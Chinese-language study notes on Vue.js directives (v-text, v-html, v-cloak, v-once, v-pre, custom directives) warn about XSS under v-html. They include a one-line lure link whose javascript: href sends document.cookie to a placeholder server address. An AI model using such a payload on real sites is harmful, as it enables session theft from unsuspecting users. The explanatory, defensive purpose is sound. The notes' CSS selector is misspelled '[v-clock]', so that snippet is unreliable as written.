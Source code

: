 # v-text

向标签内插入纯文本（`innerText`），会替换innerText的所有内容

```js
    <div v-text="name"></div>
```

```js
    <div >{{name}}</div>
```

# v-html

向标签插入文本（`innerHtml`），支持标签的解析

## XSS攻击

![image-20231108104527420](assets/image-20231108104527420.png)

Cookies Editor

敏感数据需要勾选HttpOnly

```js
<a href=javascript:location.href='服务器地址?'+document.cookie>点我，领红包</a>
```

cookie信息将传入该服务器地址

因此不建议使用v-html

# v-cloak

v-cloak属性在Vue介入时，v-cloak会被删除

```js
<h2 v-cloak>会被删除</h2>
```

删除后：

```js
<h2 >会被删除</h2>
```

```js
[v-clock]{
    display:none
}
```

搭配CSS样式可以实现当Vue响应完成后再渲染，实现**未解析的标签**不会被渲染在页面中

# v-once

v-once修饰的标签只会读取一次，

```js
<p v-once>{{n}}</p>
```

# v-pre

跳过v-pre所在标签的解析过程

可以使用他跳过没有使用Vue解析（插值语法、指令语法）的标签，会加快编译

```js
<p v-pre>静态标签</p>
```

# 自定义指令

我们使用的vue指令都是Vue封装好的DOM操作，我们也可以自定义指令

## directives

在directives配置项内可以自定义指令，定义一个指令big：

```js
directives:{
    big(element,binding){
        element.innerText=binding.value*10
    }
}
```

- element：当前DOM元素
- binding：绑定的元素（v-指令="元素"）

```js
<p v-big="n"> </p>
```

指令所在的模板被修改时，指令将重新解析